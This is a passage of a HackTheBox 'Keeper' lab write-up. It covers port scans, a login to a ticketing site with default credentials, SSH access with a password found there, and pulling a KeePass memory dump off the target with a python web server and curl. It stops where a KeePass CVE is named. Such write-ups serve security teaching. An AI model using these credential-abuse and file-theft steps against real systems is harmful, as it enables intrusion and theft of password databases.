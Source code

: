 # Keeper
**Keeper** is an Easy HackTheBox machine. It hosts a ticket website set up without changing default credentials. After a bit of looking, ssh credentials for a normal user can be found. SSHing into the machine reveals a zip file containing a dump of a vulnerable KeePass application, allowing us to recover the key for the database. In the database the root's putty ssh key file, which after translating into OpenSSH format gives us root access to the machine.

## Enumerating ports
After making sure I can access the machine:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ IP="10.10.11.227"
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ ping -c 5 $IP
PING 10.10.11.227 (10.10.11.227) 56(84) bytes of data.
64 bytes from 10.10.11.227: icmp_seq=1 ttl=63 time=163 ms
64 bytes from 10.10.11.227: icmp_seq=2 ttl=63 time=142 ms
64 bytes from 10.10.11.227: icmp_seq=3 ttl=63 time=374 ms
64 bytes from 10.10.11.227: icmp_seq=4 ttl=63 time=197 ms
64 bytes from 10.10.11.227: icmp_seq=5 ttl=63 time=264 ms

--- 10.10.11.227 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4009ms
rtt min/avg/max/mdev = 142.216/227.800/373.661/83.746 ms
```

I conducted a quick scan of the machines ports and a deeper scan of the ports that were detected open.

The quick scan:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ sudo nmap -sS -T5 -O -oN quick-scan.txt $IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 15:48 EST
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.72 seconds
```

The deeper scan:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ sudo nmap -sV -sC -T5 -p 22,80 -oN version-scan.txt $IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 15:49 EST
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
```

Summary of the scans:
* target OS -> Linux 4.15 - 5.19
* no firewall (closed tcp ports)
* 22 -> ssh
  * version not vulnerable
* 80 -> http
  * nginx/1.18
  * vulnerable to crashes -> not helpful for rooting

## Enumerating the website
Since I didn't have a lot of information about the system and SSH does not have any default credentials (ssh passwords are machine passwords), I really didn't have any leads on doing anything with SSH at the start. I decided to look into the website first in order to gather more info.

### Connecting
This is what I saw when navigating to the IP address over http:

![Site showing a link to another page](images/visiting-main-site.png)

After clicking the link my DNS lookup failed, leading to this:

![Firefox can't find site from link](images/trouble-finding-site.png)

Here I suspected that the site does something called virtual hosting.

Virtual hosting is the act of running multiple servers on the same machine(the same IP address) and deciding on which one to send to the client based on the "Host" header of the request.

Normally, this wouldn't be a problem if my machine was connected to a DNS server that would pre-map the machine ip address to the multiple http servers it hosts. I however do not have such a DNS to connect to. That means that my DNS is trying to get information on a public DNS, that does not have the entry of this hackthebox site, leading to nothing being found.

This means that I have to manually map my DNS configurations on my machine to tell my DNS to go straight to the ip address of the box.

Looking at the URL of the site the link points to, I see that I want to access `tickets.keeper.htb`

I `sudo vim` added the following entry to my `/etc/hosts` file:

```bash
10.10.11.227    tickets.keeper.htb
```

When I tried visiting the link again, I could finally access the resource:

![Firefox finally shows the site that the link pointed to](images/tickets-login-page.png)

### Taking advantage of default credentials
The login page reveals `tickets.keeper.htb` to be a Request Tracker service. Studying its version (`4.4.4`) I was not able to find any exploits.

However, [Request Tracker does have known default conditionals](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration):

```bash
root:password
```

I tried this set of credentials and successfully logged in!

![Main Request Tracker page after successfull login](images/logged-in.png)

### User discovery
After poking around, I found a user account that is administrated by the service in `Admin` -> `Users`:

![Screenshot of found user "lnorgaard"](images/lnorgaard-user.png)

This pointed me the following credentials:

```bash
lnorgaard:Welcome2023!
```

I tried these credentials through ssh and successfully connected to the machine:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb  8 14:11:10 2025 from 10.10.14.19
lnorgaard@keeper:~$
```

## Enumerating the user's environment

### Discovering a .zip file

After listing the home directory of `lnorgaard` I found a zip file:

```bash
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Since `RT30000.zip` is not a default file one finds in a home directory, I decided to download it to my machine for further analysis.

### Downloading the .zip file
I started a python http server on the remote machine:

```bash
lnorgaard@keeper:~$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...

```

and `curl`ed the file into my box:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ curl http://${IP}:1234/RT30000.zip --output files.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 83.3M  100 83.3M    0     0   292k      0  0:04:52  0:04:52 --:--:--  269k
```

## .zip file analysis

### Checking the files
I first inflated the .zip file to see what files were present:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ unzip files.zip
Archive:  files.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
```

I checked what my machine thought these files were:

```bash
(sz3kz@kali)~{tun0:10.10.14.19}~[Keeper]$ file KeePassDumpFull.dmp passcodes.kdbx
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
passcodes.kdbx:      Keepass password database 2.x KDBX
```

Checking out Keepass version 2.x reveals a potential exploit of [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784). This exploit allows the extraction of the master password of the current Keypass database by memory analysis. The dump in the .zip must surely be of the Keypass app!
